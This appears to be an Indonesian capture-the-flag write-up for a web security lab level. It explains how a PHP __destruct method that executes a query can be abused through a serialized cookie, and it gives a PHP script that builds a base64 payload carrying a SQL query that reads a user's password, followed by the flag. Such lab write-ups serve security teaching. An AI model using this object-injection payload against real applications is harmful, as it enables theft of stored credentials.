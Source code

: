 ```
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

[https://www.w3schools.com/php/php_oop_destructor.asp](https://www.w3schools.com/php/php_oop_destructor.asp)

Di source code ke 2 kita bisa melihat sebuah function __destruct(), dimana function akan selalu dipanggil sebelum script selesai berjalan.

Hal ini tentu menjadi keuntungan bagi penulis karena dengan dibantu function __destruct, penulis bisa menyisipkan query kedalam cookie yang di serialized tadi dan query tersebut akan bisa di execute

Penulis membuat script PHP untuk generate cookie leet_hax0r yang berisi query SQL

```
<?php 
class SQL{
	public $query="SELECT password username from users where id=1";
}

echo base64_encode(serialize(array('ip' => '111.95.127.173',new SQL())));
echo "\n";

?>
```

Ketika cookienya dimasukkan dan page di reload, maka flag akan terlihat

![Image](img/level4/3.PNG)

Flag : WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}
